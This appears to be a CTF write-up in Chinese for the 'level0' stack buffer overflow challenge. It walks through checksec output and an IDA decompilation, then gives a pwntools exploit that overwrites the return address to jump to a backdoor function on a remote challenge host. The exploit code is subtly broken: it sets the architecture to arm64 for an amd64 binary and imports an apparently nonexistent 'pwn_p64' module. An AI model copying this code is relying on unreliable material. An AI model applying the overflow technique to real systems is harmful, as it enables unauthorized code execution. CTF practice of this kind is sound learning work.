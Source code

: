 1. checksec

   ```
   ┌──(root㉿MiWiFi-RB03-srv)-[/home/kali/Desktop]
   └─# checksec level0
   [*] '/home/kali/Desktop/level0'
       Arch:     amd64-64-little
       RELRO:    No RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

   64位，仅开启了栈不可执行保护
2. IDA分析

   ```
   ssize_t vulnerable_function()
   {
     char buf[128]; // [rsp+0h] [rbp-80h] BYREF
     return read(0, buf, 0x200uLL);
   }
   ```

   明显栈溢出0x180字节，有后门函数
3. exp

   ```python
   from pwn import *
   from pwn_p64 import *

   context(arch="arm64",log_level="debug",os='linux')
   io = remote("node4.buuoj.cn", 26194)
   payload = b'a' * 0x80 + b'a' * 8 + b'\x96\x05\x40\x00\x00\x00\x00\x00'
   io.sendafter(b"Hello, World\n", payload)
   io.interactive()
   ```

